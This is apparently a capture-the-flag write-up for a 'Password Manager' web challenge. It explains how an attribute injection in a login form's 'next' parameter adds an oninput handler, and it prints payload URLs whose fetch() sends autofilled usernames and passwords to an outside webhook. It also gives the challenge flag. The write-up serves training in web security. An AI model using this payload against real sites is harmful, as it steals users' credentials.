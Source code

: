 # Password Manager - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

We have Intel about the owner of this website:\
He's using a Password Manager!

Can you use this Intel to steal his credentials?\
A flag will wait for you right after you log in.

http://34.76.228.102:2003 \
(Note: use the IP not the domain)

Hint:
This is a password manager browser extension.\
What do password manager extensions do?

## Solution

### Login Page

![Image Error](assets/page_login.png)

Password doesn't matter we can login without one

### Index Page

![Image Error](assets/page_index.png)

The admin of this site uses a Password Manager Extension:

1. Password Managers are domain-specfic
2. Password Managers auto-fill username and passwords
3. Passwords Managers don't submit the form after auto-filling it

Clicking on the logout button will take us to `/login?next=`
The next parameter is important because the site appends it to `action=` in the form

`/login?next=TESTTESTESTESTESTEST`

![Image Error](assets/next_example.png)

This is not useful because of Rule 3 (see above) but we can escape ourselves from the input of action= by appending a space character however htmlentities are being processed meaning we have control only on the attributes of the form.

Adding the event `oninput` with a simple `fetch` request to our web hook with the input values will give us the data from the password manager.

### Payload

Make the Security Researcher visit:

http://34.76.228.102:2003/login?next=%20oninput=fetch("http://webhook.com?username="+sfrusername.value+"-"+sfrpassword.value)

Url-Encoded:

```html
http://34.76.228.102:2003/login?next=a%20oninput=fetch(%22http://cmdengineer.free.beeceptor.com?username=%22%2Bsfrusername.value%2B%22-%22%2Bsfrpassword.value)
```

This will slowly leak the password of the security researcher the admin. Logging in the site with he's credentials will give us the flag!

Flag: `hexCTF{pa55w0rd_m4nag3rs_c4n_hav3_vuln3rabilit1es_t00}`
